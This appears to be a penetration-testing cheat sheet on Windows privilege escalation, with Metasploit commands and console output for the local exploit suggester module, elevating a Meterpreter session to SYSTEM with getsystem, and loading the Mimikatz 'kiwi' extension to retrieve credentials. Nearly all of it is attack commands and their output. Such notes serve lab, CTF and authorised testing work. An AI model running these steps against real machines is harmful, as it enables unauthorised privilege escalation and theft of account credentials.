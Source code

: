 # Windows privesc

## metasploit

### local_exploit_suggester
`module`
```
post/multi/recon/local_exploit_suggester
```
`example`

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[-] 10.10.10.5 - Post interrupted by the console user
```

### mimikatz kiwi

After obtaining a meterpreter shell, we need to ensure that our session is running with SYSTEM level privileges for Mimikatz to function properly.
```
meterpreter > getuid
Server username: WINXP-E95CE571A1\Administrator

meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Mimikatz supports 32bit and 64bit Windows architectures. After upgrading our privileges to SYSTEM, we need to verify, with the sysinfo command, what the architecture of the compromised machine is. This will be relevant on 64bit machines as we may have compromised a 32bit process on a 64bit architecture. If this is the case, meterpreter will attempt to load a 32bit version of Mimikatz into memory, which will cause most features to be non-functional. This can be avoided by looking at the list of running processes and migrating to a 64bit process before loading Mimikatz.
```
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```  
Since this is a 64bit machine, we can proceed to load the Mimikatz module into memory.
```
meterpreter > load mimikatz
[!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
[!] The "kiwi" extension has already been loaded.
meterpreter > help kiwi

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
```